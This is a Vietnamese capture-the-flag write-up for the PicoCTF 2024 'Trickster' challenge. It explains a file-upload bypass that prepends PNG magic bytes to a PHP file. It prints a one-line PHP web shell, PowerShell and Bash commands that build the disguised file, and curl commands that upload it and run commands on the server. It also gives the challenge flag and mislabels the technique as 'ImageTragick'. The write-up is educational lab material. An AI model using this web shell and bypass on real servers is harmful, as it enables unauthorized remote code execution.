 ```yaml
---
title: Trickster
date: 2025-10-27 23:00:00 +0700
categories: [Web Exploitation, PicoCTF 2024, Medium]
tags: [web, pico, medium]
author: khoa
description: I found a web app that can help process images, PNG images only!
toc: true
comments: true
---
```


## **Cách mình làm**

### Soi web
Vừa vào web thì mình thấy nó cho mình phần upload file như thế này:
![img-description](https://i.ibb.co/tTkXCvyj/image-2025-10-27-224600263.png)
_Sau khi vào web_

Check thử robots.txt xem có gì hot:
![img-description](https://i.ibb.co/Z6nSY62c/image-2025-10-27-224740109.png)
_Robots.txt_

Vậy là mình biết nó có phần /uploads/

### Nghịch
Kỹ thuật mình sẽ sử dụng là ImageTragick!, thêm magic byte của file png vào file .php rồi upload lên cho nó thực thi lệnh (RCE)

#### Shell.php
Đầu tiên các bạn cần chuẩn bị 1 file shell.php với nội dung như sau:
```php
<?php system($_GET['cmd']); ?>
```

#### PNG Header
Sau đó các bạn thêm PNG Header vào để nguỵ trang:
##### PowerShell (Windows)
```powershell
[System.IO.File]::WriteAllBytes("shell.php.png", @(0x89,0x50,0x4E,0x47,0x0D,0x0A,0x1A,0x0A))
Get-Content shell.php -Raw | Out-File -Append -Encoding ASCII shell.php.png
```

##### Bash (Linux)
```bash
echo -ne '\x89\x50\x4E\x47\x0D\x0A\x1A\x0A' > shell.png.php
cat shell.php >> shell.png.php
```

![img-description](https://i.ibb.co/LXN3RZvN/image-2025-10-27-225425603.png)
_Sau khi tạo file nguỵ trang_

#### Upload File

Dùng Burp Suite hoặc curl:
```bash
curl -F 'file=@shell.png.php' http://atlas.picoctf.net:PORT/
```

Khi thành công → file được lưu tại `/uploads/shell.png.php`

![img-description](https://i.ibb.co/QFCYL4QP/image-2025-10-27-225602779.png)
_Sau khi upload file_

#### RCE
Truy cập shell:
```bash
curl "http://atlas.picoctf.net:PORT/uploads/shell.png.php?cmd=whoami"
```

Và mình đã RCE thành công!!!
![img-description](https://i.ibb.co/Lz7HNFcp/image-2025-10-27-225758108.png)
_RCE thành công_

Thử ls quanh quanh thì thấy có cái file txt này lạ lạ:
![img-description](https://i.ibb.co/4wTnM54W/image-2025-10-27-225906341.png)
_ls quanh quanh_

Cat thử thì có flag nè!!!
![img-description](https://i.ibb.co/6JbkrXd4/image-2025-10-27-230025466.png)
_lòi flag_

FLAG: **picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_ab0ece03}**

## **Kết luận**
### Bản chất
Đây là một lỗ hỏng upload file, bypass bằng các Magic Bytes của file png, từ đó các bạn có thể thực thi lệnh

### Cách làm
B1: Tạo file png giả, có chứa nội dung của file php để thực thi shell

B2: Upload lên web

B3: Phá!!!

### Tại sao Magic Bytes có thể bypass được và cho phép RCE???
Lý do cốt lõi là sự kiểm tra không đầy đủ.

Hệ thống chỉ quan tâm đến "cái mác" (magic byte) mà bỏ qua hoàn toàn "nội dung" (phần còn lại của tệp). Kẻ tấn công chỉ cần "dán đúng mác" lên một "gói hàng cấm" là có thể vượt qua trạm kiểm soát.

Nói chung là cũng tại thằng dev mà thôi =)))

## **Lời kết**

Chúc các bạn đánh CTF vui vẻ!!!

